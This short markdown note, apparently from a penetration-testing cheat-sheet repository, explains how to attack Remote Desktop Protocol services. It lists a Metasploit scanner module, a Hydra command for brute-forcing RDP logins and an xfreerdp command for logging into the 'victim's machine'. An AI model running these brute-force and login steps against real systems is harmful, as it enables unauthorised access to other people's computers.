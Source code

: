 # RDP Remote Desktop Protoco

1. Defualt Port 3389
2. Protocol used for remotely accessing the computers

## How To Exploit

1. Check for running services on the target and confirm if RDP is running on any open port
2. use metasploit to confirm the services running is RDP

       use auxiliary/scanner/rdp/rdp_scanner
   
3. use Hydra to brute force the login credentials

       hydra -L user.txt -P password.txt rdp://IP -s PORT

4. use and RDP tools to login into the victim's machine in linux Tools (xfreerdp)

       xfreerdp /U:username /P:password /v:192.168.43.25:4444
